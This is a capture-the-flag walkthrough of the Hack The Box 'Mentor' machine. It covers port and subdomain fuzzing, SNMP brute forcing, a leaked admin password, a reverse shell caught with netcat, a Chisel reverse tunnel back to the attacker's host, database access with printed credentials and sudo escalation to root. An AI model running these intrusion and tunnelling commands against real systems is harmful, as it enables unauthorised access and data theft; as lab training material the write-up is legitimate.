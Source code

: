 ## Scanning

We start with nmap port sca and givving as 2 open ports; 22 nd 80 and `udp` ports
```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU --min-rate 10000 10.10.11.193 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-22 00:02 EST
Nmap scan report for mentorquotes.htb (10.10.11.193)
Host is up (0.086s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp
1214/udp  closed fasttrack
1993/udp  closed snmp-tcp-port
16862/udp closed unknown
20288/udp closed unknown
21948/udp closed unknown
49968/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
```
Changing the host nmae to `mentorquotes.htb`, giving as a webpage with some motivation quotes.
![](/Hack-The-Box/Mentor/img/1.png)


We used `feroxbuster` for hidden directory scan andgot nothing intresting, so we gone for sub-domain enumeration usung `wfuzz` and found a domain named `api`
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://mentorquotes.htb/  -H "Host: FUZZ.mentorquotes.htb" -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 302
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mentorquotes.htb/
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000077:   404        0 L      2 W        22 Ch       "api"          
```
 the page shows nothing intresting 
 ![](/Hack-The-Box/Mentor/img/2.png)

so we did content discovery using `wfuzz` and found something intresting
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://api.mentorquotes.htb/FUZZ  -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://api.mentorquotes.htb/FUZZ
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000003:   307        0 L      0 W        0 Ch        "admin"                                                                                                                                           
000000076:   200        30 L     62 W       969 Ch      "docs"                                                                                                                                            
000000129:   307        0 L      0 W        0 Ch        "users"                                                                                                                                           
000001011:   307        0 L      0 W        0 Ch        "quotes"                                                                                                                                          
000003781:   403        9 L      28 W       285 Ch      "server-status"            
```

 ![](/Hack-The-BoxMentor/img/3.png)

since `snmp`  port is open we are brute forcing community string using `nmap`
we found two stirings named `public and internal` so using `snmpwalk ` we do some basic enumerations and found a intresting password from `internal` 
` STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"`

Let’s try to sign up for a new account using the email address `james@mentorquotes.htb`

 ![](/Hack-The-Box/Mentor/img/5.png)

The sign-up process did not work using the email address that we found. Let’s try using a different email address instead.

![](/Hack-The-Box/Mentor/img/6.png)
 
Now that we have created a new account, let’s try using the login function to access it

![](/Hack-The-Box/Mentor/img/7.png)

Upon successful login, the login function provided us with a JWT (JSON Web Token), which we can use to authenticate future requests to the website.
We are using this JWT to access `GET /users` along with  `Authorization` header

![](/Hack-The-Box/Mentor/img/8.png)

We received a response stating that only an administrator can access this resource.So from `snmpwalk` we found a password using that password we tried to login and get a valid JWT.

![](/Hack-The-Box/Mentor/img/9.png)

let’s try the function using the new JWT to see if we have the necessary permissions.

![](/Hack-The-Box/Mentor/img/10.png)
we were able to successfully run the ‘get users’ function and retrieve the list of users.

let’s check the contents of the ‘admin’ directory.
![](/Hack-The-Box/Mentor/img/11.png)

`/check` was not implemented yet and changing the method of `/backup` gives a response
![](/Hack-The-Box/Mentor/img/12.png)

since api is more verbose we add some wrong parametrs to find the orginal response 

![](/Hack-The-Box/Mentor/img/13.png)

now we try to create our revershell payload.
![](/Hack-The-Box/Mentor/img/14.png)

we get shell as root 
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ nc -nvlp 7878                  
listening on [any] 7878 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.193] 45147
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app # 
```
now we realize that we are indside a docker container.
After reviewing the local files, we found a file called ‘db.py’ located in the ‘/app/app’ directory. This file contains information about the PostgreSQL database.

```python
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)

```
In order to access the database we need to tunnel to our machine and use the credentials.

## Tunneling

Use  Chisel to create a tunnel to our machine and use the credentials that we found in the ‘db.py’ file.

`our machine: ./chisel_1.7.7_linux_amd64  server --port 9595 --reverse`

`docker shell: ./chisel_1.7.7_linux_amd64 client -v 10.10.14.12:9595 R:5432:172.22.0.1:5432`

Now we are able to acesss the database
`psql -h 127.0.0.1 -p 5432 -d mentorquotes_db -U postgres`

![](/Hack-The-Box/Mentor/img/15.png)

we were able to carck service_acc hash password `123meunomeeivani`

while running `linepeas` we found `snmpd.conf` file.These file usually contains sensitive credentials or information

![](/Hack-The-Box/Mentor/img/16.png)

there is our password

![](/Hack-The-Box/Mentor/img/17.png)

Now we are able to login as user `james`. User james have the privilege to run `/bin/sh` as sudo user,which help us to gain root privilegs.


![](/Hack-The-Box/Mentor/img/18.png)



![](/Hack-The-Box/Mentor/img/19.png)
